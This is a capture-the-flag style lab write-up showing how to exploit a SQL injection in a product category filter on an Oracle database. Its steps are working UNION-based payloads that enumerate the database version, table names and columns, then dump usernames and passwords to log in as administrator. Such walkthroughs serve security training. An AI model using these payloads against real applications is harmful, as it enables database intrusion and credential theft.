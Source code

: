 # SQL injection attack, listing the database contents on Oracle

### Lab description
This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users. 

**Goal:** log in as the **administrator** user. 

---

## Steps

Select category and forward request to repeater.
Determine text field. On Oracle database you need to use word FROM with SELECT, default table is 'dual'. 
```SQL
'+UNION+SELECT+NULL,'qwerty'+FROM+dual--   200 OK
```

We can determine DB version using this payload:

```SQL
'+UNION+SELECT+NULL,banner+FROM+v$version--
```

For extract list of tables names in DB use this payload:

```SQL
'+UNION+SELECT+NULL,TABLE_NAME+FROM+all_tables--   200 OK
```

Use search to find USERS_XYJXLY and use payload for retrieve details of the columns:

```SQL
'+UNION+SELECT+NULL,COLUMN_NAME+FROM+all_tab_columns+WHERE+TABLE_NAME='USERS_XYJXLY'--   200 OK
```

We find **USERNAME_MOCEJR** and **PASSWORD_ZGDUEN**

Finally:

```SQL
'+UNION+SELECT+USERNAME_MOCEJR,PASSWORD_ZGDUEN+FROM+USERS_XYJXLY--   200 OK
```

And we retrieve users log in credentials. Then log in as **administrator**.

> ### **Congratulations, you solved the lab!**